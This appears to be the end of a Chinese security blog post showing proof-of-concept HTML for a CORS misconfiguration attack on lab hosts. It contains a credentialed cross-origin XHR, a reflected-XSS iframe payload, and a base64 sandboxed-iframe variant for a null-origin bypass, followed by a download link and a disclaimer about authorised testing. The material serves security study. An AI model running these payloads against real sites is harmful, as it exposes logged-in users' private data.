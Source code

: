 ```
```  
  
b.com的index.html  
```
<script>
    var xhr = new XMLHttpRequest();
    xhr.open('GET', 'https://a.com:8081/getinfo.php', true);
    xhr.withCredentials = true;
    xhr.onreadystatechange = function () {
        if (xhr.status === 200) {
            console.log(xhr.responseText);
        }
    };
    xhr.send();
</script>

```  
  
xss.html  
```
<iframe src="https://bug.a.com:8081/index.php?name=%3Cscript%3E%20var%20xhr%20=%20new%20XMLHttpRequest();%20xhr.open(%27GET%27,%20%27https://a.com:8081/getinfo.php%27,%20true);%20xhr.withCredentials%20=%20true;%20xhr.onreadystatechange%20=%20function%20()%20{%20if%20(xhr.status%20===%20200)%20{%20console.log(xhr.responseText);%20}%20};%20xhr.send();%20%3C/script%3E">

</iframe>

```  
  
iframe.html  
```
<iframe sandbox="allow-scripts" src="data:text/html;base64,PHNjcmlwdD4KICAgIHZhciB4aHIgPSBuZXcgWE1MSHR0cFJlcXVlc3QoKTsKICAgIHhoci5vcGVuKCdHRVQnLCAnaHR0cHM6Ly9hLmNvbTo4MDgxL2dldGluZm8ucGhwJywgdHJ1ZSk7CiAgICB4aHIud2l0aENyZWRlbnRpYWxzID0gdHJ1ZTsKICAgIHhoci5vbnJlYWR5c3RhdGVjaGFuZ2UgPSBmdW5jdGlvbiAoKSB7CiAgICAgICAgaWYgKHhoci5zdGF0dXMgPT09IDIwMCkgewogICAgICAgICAgICBjb25zb2xlLmxvZyh4aHIucmVzcG9uc2VUZXh0KTsKICAgICAgICB9CiAgICB9OwogICAgeGhyLnNlbmQoKTsKPC9zY3JpcHQ+"></iframe>

```  
  
  
[](http://mp.weixin.qq.com/s?__biz=MzA5MzYzMzkzNg==&mid=2650939865&idx=1&sn=773462fd879df4c210ad316ed538483a&chksm=8bac6d26bcdbe4302b3b28dac2f62deaa16dc687bff0062a8ca5d90f6b124e3d2685544fdc03&scene=21#wechat_redirect)  
  
**下载地址**  
  
****  
**二个月前资源汇总**  
  
https://kdocs.cn/l/cq  
EYzWfs0kUS  
  
  
  
声明：本公众号所分享内容仅用于网安爱好者之间的技术讨论，禁止用于违法途径，**所有渗透都需获取授权**  
！否则需自行承担，本公众号及原作者不承担相应的后果  
  